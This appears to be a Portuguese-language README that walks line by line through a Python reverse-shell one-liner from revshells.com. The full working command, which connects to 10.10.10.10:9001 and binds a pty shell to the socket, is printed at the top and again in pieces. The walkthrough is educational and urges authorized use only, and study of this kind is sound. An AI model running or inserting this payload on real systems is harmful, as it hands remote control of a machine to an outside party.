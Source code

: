 
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

<h2>📜  Descrição</h2>

Se você é um entusiasta do hacking e da Segurança da Informação com certeza você já usou ou já ouviu falar sobre o [Reverse Shell Generator](https://www.revshells.com/). É uma plataforma Web que você consegue utilizar um gerador de conexão reversa de diversos tipos de conexões para Windows, Linux e MAC, e com diferentes linguagens como: Python, C, Ruby e por ai vai.

Todo mundo sempre copia e cola um ou outro código de Shell reverso e percebendo isso resolvi questionar como realmente funciona um Reverse Shell. Será mesmo que é só copiar ou colar? Porque não podemos ir a fundo e ver oque podemos aprender com isso? Bora lá!


<h3>👾  O código</h3>

~~~shellscript
RHOST="10.10.10.10";export RPORT=9001;python
-c 'import sys,socket,os,pty;s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
~~~~
Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!

<h3>👨‍💻🔎   Analisando o código</h3>

1)
~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
~~~~
Essas são duas instruções export em shell que definem variáveis de ambiente. RHOST é definido como o endereço IP do servidor remoto (neste caso, "10.10.10.10"), e RPORT é definido como o número da porta (neste caso, 9001).

2)
~~~shellscript
python -c '... '
~~~~
 Isso inicia a execução do Python com um comando inline. O código Python entre as 'aspas' simples será executado.
 
 3)
 ~~~shellscript
import sys,socket,os,pty;
~~~~
 Isso importa os módulos Python necessários para a execução do código:
 
  * sys: Fornece acesso a variáveis e funções relacionadas ao sistema.
  * socket: Permite a criação de soquetes para comunicação em rede.
  * os: Fornece funcionalidades relacionadas ao sistema operacional.
  * pty: É usado para interagir com terminais pseudo-TTY.

 4)
 ~~~shellscript
s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
~~~~

Aqui, um objeto de soquete (s) é criado usando a classe socket.socket(). Em seguida, é estabelecida uma conexão com o servidor remoto usando o endereço IP e a porta definidos nas variáveis de ambiente RHOST e RPORT. os.getenv é usado para acessar os valores das variáveis de ambiente definidas anteriormente.

 5)
 ~~~shellscript
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
~~~~
Este é um list comprehension que duplica os descritores de arquivo padrão (stdin, stdout e stderr) para o soquete criado. Isso redireciona a entrada e saída padrão para a conexão de rede, permitindo que comandos sejam enviados e recebidos pelo servidor remoto.

 6)
 ~~~shellscript
pty.spawn("sh")
~~~~
Finalmente, a função pty.spawn é usada para criar um shell interativo no servidor remoto. Isso permite que o usuário interaja com o servidor remoto como se estivesse no prompt de comando do servidor.

Em resumo, este código Python é um exemplo de um "one-liner" que estabelece uma conexão de rede com um servidor remoto e cria um shell interativo para interagir com o servidor. É importante notar que esse tipo de código pode ser usado para fins maliciosos, portanto, deve ser usado com responsabilidade e apenas em ambientes autorizados.


<h3>👨‍💻🔎   Autor</h3>

Fique a vontade para dar feedbacks ou colocar sua análise do código tambem, além de outras análises de Shells reversos diferentes com outras linguagens.


<h4 align="center">
May the force be with you
<h4>


